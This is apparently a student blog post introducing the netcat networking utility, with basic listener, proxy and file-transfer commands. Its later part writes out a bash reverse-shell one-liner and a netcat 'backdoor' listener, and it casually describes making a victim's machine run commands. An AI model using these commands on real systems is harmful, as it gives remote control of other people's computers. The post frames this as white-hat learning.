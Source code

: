```yaml
---
layout: post
title:  "Netcat: Woah"
date:   2017-02-24 09:43:21 -0500
---
```



File this one under semi-relevant but super neat. My first exposure to netcat was through an offhand comment made by our instructor Steven, in which he said it was pretty crazy. If i’ve learned anything about Steven, with his background in network security, it’s to pay attention to the things he mentions as cool, because they probably are. This was no exception. In this blog post, I’ll cover some of the basics of netcat, as well as some neat tricks you can do with it. 

	Type “man nc” into your terminal and even the first couple of lines are intriguing. Not even the first couple of lines in your iPhone’s manual were intriguing, so this is already a good start:
	“nc -- arbitrary TCP  and UDP connections and listens… the nc (or netcat) utility is used for just about anything under the sun involving TCP or UDP.”

	Having learned all about how the internet works earlier this week we, we were exposed to TCP and UDP as part of the transport layer in the internet protocol suite. Simply put, these protocols allow for the transference of data via hosts communicating by an IP network. As such, netcat was originally conceived as a network utility for reading and writing to network connections, a general-purpose networking tool. 

Some basic applications of nc include:

Checking if ports on the network are open
To listen for connections on TCP port 8080. : nc -l 8080
Creating an HTTP proxy server:
 To create a proxy server on localhost port 8888. : nc -l --proxy-type http localhost 8888
Encrypted file transfer: 
When you SSH in, add -L 31000:127.0.0.1:31000
On the remote: nc -lvnp 31000 127.0.0.1 > file
On the local: nc -v -w 2 127.0.0.1 31000 < file

	Clearly this is an extremely versatile and useful tool for diagnosing problems on a network. However beyond that, nc is also a favorite tool of hackers, known to some as  “the swiss army knife of hacking tools”. From the examples above, even successfully sending an encrypted file has obvious hacking applications. However, in order for the file to be opened on the remote, someone needs to be on the receiving end typing in the command. Or do they? 
	
	![]( http://giphy.com/gifs/rick-and-morty-1107IdxsMU7I6khttp://)
	
	
	
	One tricky thing that nc can be used to do is to create a reverse shell to remotely execute commands over any open port using netcat or BASH. A reverse shell is a type of shell in which another ‘attacking’ machine can execute commands. You can create one with a single line of code : bash -i >& /dev/tcp/youripaddress/1337 0>&1
Next, we create a backdoor with our trusty friend netcat: nc -l 1337    

And voila, we’re done(more or less). You can use this to make the victim computer do funny things like speaking out loud: “say [thing]”, and beyond that more malicious applications are pretty apparent. 

	So, being a student of code and its legal applications, why would I want to learn such a thing? Online, there’s a type of hacker called a “white hat,” someone who uses hacker’s tools for educational and non-malicious purposes. If I am to contribute to helping preserve and develop online infrastructure, a deep understanding of all of the tools at our disposal is crucial, regardless of how fun they are.



Sources: 
https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf  
https://en.wikipedia.org/wiki/Netcat (yes I’m listing Wikipedia as a source, just bein’ honest!) 
http://www.thegeekstuff.com/2012/04/nc-command-examples/?utm_source=feedburner
https://null-byte.wonderhowto.com/how-to/create-reverse-shell-remotely-execute-root-commands-over-any-open-port-using-netcat-bash-0132658/

